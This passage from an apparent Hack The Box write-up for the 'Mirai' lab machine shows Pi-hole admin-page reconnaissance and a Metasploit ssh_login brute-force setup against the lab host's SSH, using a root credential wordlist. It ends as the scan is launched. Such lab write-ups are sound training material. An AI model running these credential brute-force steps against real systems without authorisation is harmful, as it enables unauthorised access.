 ```
http://10.10.10.48/admin
```

<img src="https://github.com/fortyfunbobby/security-projects/blob/master/hackthebox/machines/mirai/pi-hole-admin.jpg" width=200px/>

```
*Pi-hole can protect your network from malware*
You can add additional block lists to your installation that will prevent domains that are
known to serve malware or act as a phishing site from ever entering your network.
```

On the admin console, I see an option to login that requests just a password,
no username.

```
http://10.10.10.48/admin/index.php?login
```

<img src="https://github.com/fortyfunbobby/security-projects/blob/master/hackthebox/machines/mirai/pi-hole-login.jpg" width=200px/>

Under "forgot password", I see that you can `ssh` into the machine and run the
following command to reset your password (apparently no way to recover the
password that is provided during installation).

```
$ sudo pihole -a -p
```

Not sure if this is leading anywhere..

### ENUMERATING PORT 22 (SSH)

So let's turn our attention to SSH and Port 22 and see if we can brute force
our way in or discover any useful information about it..

##### METASPLOIT

```
$ sudo service postgresql start
$ sudo msfdb init
$ msfconsole
msf > db_status
[*] postgresql connected to msf

msf > use auxiliary/scanner/ssh/ssh_login

msf auxiliary(ssh_login) > set RHOSTS 10.10.10.48
RHOSTS => 10.10.10.48

msf auxiliary(ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt

msf auxiliary(ssh_login) > set VERBOSE false
VERBOSE => false

msf auxiliary(ssh_login) > services -p 22 -u -R

Services
========

host         port  proto  name  state  info
----         ----  -----  ----  -----  ----
10.10.10.48  22    tcp    ssh   open   SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u3

RHOSTS => 10.10.10.48

msf auxiliary(ssh_login) > run
```